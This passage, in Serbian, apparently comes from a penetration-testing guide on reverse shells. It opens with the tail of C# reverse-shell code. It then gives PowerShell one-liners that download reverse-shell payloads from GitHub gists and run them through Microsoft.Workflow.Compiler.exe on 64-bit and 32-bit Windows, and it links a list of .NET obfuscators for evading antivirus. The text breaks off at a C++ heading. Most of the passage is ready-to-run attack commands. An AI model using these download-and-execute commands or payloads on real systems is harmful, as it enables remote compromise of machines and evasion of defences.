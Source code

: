 ```csharp
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```

### C# korišćenjem kompajlera

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatsko preuzimanje i izvršavanje:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```

{% embed url="https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f" %}

Lista C# obfuskatora: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
